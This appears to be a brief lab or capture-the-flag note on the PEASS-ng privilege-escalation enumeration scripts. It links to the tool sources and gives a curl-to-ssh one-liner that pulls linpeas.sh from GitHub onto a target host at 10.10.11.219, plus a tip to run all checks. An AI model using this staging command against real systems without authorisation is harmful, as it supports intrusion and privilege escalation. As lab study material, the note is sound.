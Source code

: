- winPEAS binaries are in https://www.kali.org/tools/peass-ng/

- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | ssh emily@10.10.11.219 'cat > linpeas.sh'
```

- always add -a (all checks) option to don't miss thing like cronjobs which run every minute
